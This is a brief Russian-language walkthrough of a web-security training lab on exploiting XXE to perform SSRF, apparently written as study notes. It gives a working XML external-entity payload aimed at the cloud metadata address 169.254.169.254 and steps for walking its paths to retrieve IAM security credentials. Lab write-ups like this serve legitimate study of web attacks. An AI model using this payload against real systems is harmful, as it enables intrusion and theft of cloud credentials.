 ## Exploiting XXE to perform SSRF attacks
1. Находим что фича "Check stock" находится на странице товара
2. Смотрим запрос через burp, видим там в теле передачу xml
3. Отправляем запрос в repeater, добавляем в xml `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]> ` и в поле "productId" пишем `&xxe;`
4. В ответ возвращается ошибка: `"Invalid product ID: latest"`
5. "latest" очень похоже на название папки, дописываем в путь, получаем другую ошибку с новым названием папки.
6. Повторяем пока не получим секретные данные. В результате url выглядит как `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`